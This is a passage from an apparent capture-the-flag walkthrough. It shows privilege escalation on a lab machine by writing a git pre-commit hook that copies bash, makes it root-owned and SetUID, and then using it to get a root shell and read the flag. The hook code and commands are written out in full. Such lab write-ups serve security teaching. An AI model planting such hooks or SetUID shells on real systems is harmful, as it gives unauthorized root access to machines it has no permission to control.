 By default, it has a bunch of `.sample` files:

```

dev01@opensource:~/.git/hooks$ ls
applypatch-msg.sample  fsmonitor-watchman.sample  pre-applypatch.sample  prepare-commit-msg.sample  pre-rebase.sample   update.sample
commit-msg.sample      post-update.sample         pre-commit.sample      pre-push.sample            pre-receive.sample

```

Hooks will skip over any file ending in `.sample`. Other than that, they can be whatever kind of script I want them to be.

I’ll write a short script that copies `bash` into `/tmp/0xdf`, makes sure it’s owned by root, and then sets it to SetUID so it runs as root:

```

dev01@opensource:~/.git/hooks$ echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/0xdf'
#!/bin/bash

cp /bin/bash /tmp/0xdf
chown root:root /tmp/0xdf
chmod 4777 /tmp/0xdf
dev01@opensource:~/.git/hooks$ echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/0xdf' > pre-commit
dev01@opensource:~/.git/hooks$ chmod +x pre-commit

```

I save this as `pre-commit`, so the next time someone tries to commit, it will run. I’ll also need to set that file as executable.

After the next minute, `/tmp/0xdf` is there, and a SetUID binary owned by root:

```

dev01@opensource:~/.git/hooks$ ls -l /tmp/0xdf 
-rwsrwxrwx 1 root root 1113504 Sep 30 13:45 /tmp/0xdf

```

Running with `-p` (to tell Bash not to drop privs) returns a root shell (effective uid is root):

```

dev01@opensource:~/.git/hooks$ /tmp/0xdf -p
0xdf-4.4# id
uid=1000(dev01) gid=1000(dev01) euid=0(root) groups=1000(dev01)

```

And I can read `root.txt`:

```

0xdf-4.4# cat /root/root.txt
07bae31e************************

```
